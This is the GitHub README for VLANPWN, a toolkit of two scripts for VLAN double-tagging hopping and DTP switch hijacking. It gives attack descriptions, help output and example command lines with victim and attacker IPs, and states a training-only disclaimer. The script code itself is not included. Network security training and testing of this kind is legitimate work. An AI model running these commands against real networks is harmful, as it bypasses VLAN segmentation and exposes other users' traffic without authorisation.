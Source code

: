 # VLANPWN
VLAN attacks toolkit

**The author has nothing to do with those who will use this tool for personal purposes to destroy other people's computer networks. The tools are presented for training purposes to help engineers improve the security of their network.**

**ᛝ**

**DoubleTagging.py** - This tool is designed to carry out a VLAN Hopping attack. As a result of injection of a frame with two 802.1Q tags, a test ICMP request will also be sent.

**DTPHijacking.py** - A script for conducting a DIP Switch Spoofing/Hijacking attack. Sends a malicious DTP-Desired frame, as a result of which the attacker's car becomes a trunk channel. The impact of this attack is that you can bypass the segmentation of VLAN networks and see all the traffic of VLAN networks.

```
python3 DoubleTagging.py --help

.s    s.  .s        .s5SSSs.  .s    s.  .s5SSSs.  .s s.  s.  .s    s.
      SS.                 SS.       SS.       SS.    SS. SS.       SS.
sS    S%S sS        sS    S%S sSs.  S%S sS    S%S sS S%S S%S sSs.  S%S
SS    S%S SS        SS    S%S SS`S. S%S SS    S%S SS S%S S%S SS`S. S%S
SS    S%S SS        SSSs. S%S SS `S.S%S SS .sS::' SS S%S S%S SS `S.S%S
 SS   S%S SS        SS    S%S SS  `sS%S SS        SS S%S S%S SS  `sS%S
 SS   `:; SS        SS    `:; SS    `:; SS        SS `:; `:; SS    `:;
  SS  ;,. SS    ;,. SS    ;,. SS    ;,. SS        SS ;,. ;,. SS    ;,.
   `:;;:' `:;;;;;:' :;    ;:' :;    ;:' `:        `:;;:'`::' :;    ;:'

VLAN Double Tagging inject tool. Jump into another VLAN!

Author: @necreas1ng, <necreas1ng@protonmail.com>

usage: DoubleTagging.py [-h] --interface INTERFACE --nativevlan NATIVEVLAN --targetvlan TARGETVLAN --victim VICTIM --attacker ATTACKER

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
                        Specify your network interface
  --nativevlan NATIVEVLAN
                        Specify the Native VLAN ID
  --targetvlan TARGETVLAN
                        Specity the target VLAN ID for attack
  --victim VICTIM       Specity the target IP
  --attacker ATTACKER   Specify the attacker IP
  ```
  Example:
  
  ```
  python3 DoubleTagging.py --interface eth0 --nativevlan 1 --targetvlan 20 --victim 10.10.20.24 --attacker 10.10.10.54
  ```
  
  ```
  python3 DTPHijacking.py --help
  
.s    s.  .s        .s5SSSs.  .s    s.  .s5SSSs.  .s s.  s.  .s    s.
      SS.                 SS.       SS.       SS.    SS. SS.       SS.
sS    S%S sS        sS    S%S sSs.  S%S sS    S%S sS S%S S%S sSs.  S%S
SS    S%S SS        SS    S%S SS`S. S%S SS    S%S SS S%S S%S SS`S. S%S
SS    S%S SS        SSSs. S%S SS `S.S%S SS .sS::' SS S%S S%S SS `S.S%S
 SS   S%S SS        SS    S%S SS  `sS%S SS        SS S%S S%S SS  `sS%S
 SS   `:; SS        SS    `:; SS    `:; SS        SS `:; `:; SS    `:;
  SS  ;,. SS    ;,. SS    ;,. SS    ;,. SS        SS ;,. ;,. SS    ;,.
   `:;;:' `:;;;;;:' :;    ;:' :;    ;:' `:        `:;;:'`::' :;    ;:'

DTP Switch Hijacking tool. Become a trunk!

Author: @necreas1ng, <necreas1ng@protonmail.com>

usage: DTPHijacking.py [-h] --interface INTERFACE

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
                        Specify your network interface
```
Example:

```
python3 DTPHijacking.py --interface eth0
```
